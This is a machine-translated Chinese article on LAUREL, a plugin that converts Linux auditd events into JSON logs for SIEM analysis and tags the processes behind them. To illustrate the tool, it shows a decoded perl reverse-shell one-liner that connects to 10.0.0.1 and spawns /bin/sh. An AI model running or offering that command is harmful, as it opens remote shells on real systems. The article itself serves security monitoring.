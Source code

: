# Laurel:为 SIEM 的使用转换 Linux 审计日志

> 原文：<https://kalilinuxtutorials.com/laurel/>

[![](img/35351538fcb834e645cc0dfdca469ec1.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEi2C0O4esSB3KC6FinXy-4ykql59KsBnWsuQqNfJnR8vrR9mODxXvaD3L8fz2g5hnRvYv_08viO2R-_0UX0HNiZdr0eBXKPj22prE8SB-PQlbKzxIhCenT4xKFiXjQNqz_ma9CluBgo6_uDyXrje2FIbLXdx8JxSc7JQk52X-ZeWZPcvtVs8gi3MsRp/s728/laurel-svg%20(1).png)

**LAUREL** 是 *auditd(8)* 的一个事件后处理插件，以提高其在现代安全监控设置中的可用性。

## 为什么？

TLDR:而不是像这样的审计事件…

**type = exec ve msg = audit(1626611363.720:348501):argc = 3 A0 = " perl " a1 = "-e " a2 = 75736520536 f 636 b 65743 b 24693d 2231302 e 302 e 302 e 31223 b 24703d 313233343 b 736 f 636 b 636 b 65742……**

…将它们转换成 JSON 日志，在这些日志中，您的笔测试人员/red teamers/攻击者试图制造的混乱一目了然:

**{ … "EXECVE":{ "argc": 3，" ARGV": ["perl "，"-e "，"使用 Socket$ I = \ " 10 . 0 . 0 . 1 \ "；$ p = 1234socket(S，PF_INET，SOCK_STREAM，getprotobyname(\ " TCP \ ")；if(connect(S，sockaddr_in($p，inet _ aton($ I))){ open(STDIN，\ ">&S \ ")；open(STDOUT，\ ">&S \ ")；open(STDERR，\ ">&S \ ")；exec(\ "/bin/sh-I \ ")；};"]}，…}**

## 描述

Linux 审计子系统和 *auditd(8)* 生成的日志包含在 SIEM 环境中非常有用的信息(如果配置了有用的规则集)。然而，这种格式并不太适合大规模分析:事件通常被分割成不同的行，这些行必须使用消息标识符进行合并。文件和程序执行是通过`PATH`和`EXECVE`元素记录的，但是字符串的有限字符集导致许多条目是十六进制编码的。有关更详细的讨论，请参见实际的 *auditd(8)* 问题。

*LAUREL* 通过消费审计事件、解析审计事件并将其转换为更多数据，然后以基于 JSON 的日志格式写出，同时保持原始审计日志中的所有信息不变，从而解决了这些问题。它不会取代 *auditd(8)* 作为来自内核的审计消息的消费者。相反，它使用 *audisp* (“审计分派”)接口通过 *auditd(8)* 接收消息。因此，它可以与审计事件的其他消费者(例如，一些 EDR 产品)和平共处。

有关日志格式的描述，请参考基于 JSON 的日志格式。

我们开发这个工具是因为我们不满足于现有项目和产品的特性集和性能特征。详情请参考性能。

## 关于审计规则的一句话

审计规则集的良好起点是 https://github.com/Neo23x0/auditd,，但一般来说，任何规则集都可以。只有当*事件结束*记录未被禁止时，月桂才能正常工作

`**-a always,exclude -F msgtype=EOE**`

应该被删除。

## 有背景的事件

由系统调用或文件系统规则引起的每个事件都用引起该事件的进程的父进程的信息进行了注释。如果可用，`id`指向对应于该进程的最后一个`execve`系统调用的消息:

**" PARENT _ INFO ":{
" ID ":" 1643635026.276:327308 "，
"comm": "sh "，
"exe": "/usr/bin/dash "，
"ppid": 1532
}**

## 添加更多上下文:键和流程标签

审计事件可以包含一个键，一个可用于过滤事件的短字符串。 *LAUREL* 可以配置为识别这样的键，并将它们作为键添加到导致事件的流程中。这些标签也可以传播到子进程。这有助于避免日志分析中昂贵的类似 JOIN 的操作来过滤无害的事件。

考虑以下为 *apt* 和 *dpkg* 调用设置键的规则:

**-w /usr/bin/apt-get -p x -k 软件 _ 管理**

与记录 *execve(2)* 和变体的规则集一起，这将导致由`**apt-get**`及其子流程直接引起的每个事件被标记为`**software_mgmt**`。

例如，在配置了一些源代码的 Debian/bullseye 系统上运行`**sudo apt-get update**`，可以在 *LAUREL 的*审计日志中观察到以下标记为`**software_gmt**`的子流程:

*   **T2`apt-get update`**
*   **T2`/usr/bin/dpkg --print-foreign-architectures`**
*   **T2`/usr/lib/apt/methods/http`**
*   **T2`/usr/lib/apt/methods/https`**
*   **T2`/usr/lib/apt/methods/https`**
*   **T2`/usr/lib/apt/methods/http`**
*   **T2`/usr/lib/apt/methods/gpgv`**
*   **T2`/usr/lib/apt/methods/gpgv`**
*   **T2`/usr/bin/dpkg --print-foreign-architectures`**
*   **T2`/usr/bin/dpkg --print-foreign-architectures`**

这种跟踪也适用于软件包的安装或删除。如果某个软件包的安装后脚本表现可疑，SIEM 分析师将能够通过检查单个事件与软件安装过程建立联系。

[**Download**](https://github.com/threathunters-io/laurel)